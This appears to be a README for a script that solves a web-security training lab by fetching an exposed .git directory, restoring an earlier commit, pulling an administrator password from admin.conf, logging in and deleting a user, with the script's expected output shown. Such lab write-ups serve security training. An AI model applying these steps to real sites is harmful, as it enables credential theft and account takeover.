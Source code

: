 # Hack Steps

1. Fetch the .git directory
2. Reset to the previous commit
3. Get the administrator password from the admin.conf file
4. Login as administrator
5. Delete carlos

# Run Script

1. Change the domain of the lab
2. Make sure that wget and git are installed on your system
3. Start script

```
~$ python information_disclosure_in_version_control_history.py
```

# Expected Output

```
1. Fetching .git directory.. OK
2. Changing current working directory.. OK
3. Resetting to the previous commit.. OK
HEAD is now at d82900d Add skeleton admin panel
4. Reading admin.conf file.. OK
5. Extracting the administrator password.. OK => rip9q0tdout2mduxi2og
6. Fetching login page to get a valid session and csrf token.. OK
7. Logging in as administrator.. OK
8. Deleting carlos.. OK
[#] Check your browser, it should be marked now as solved
``` 
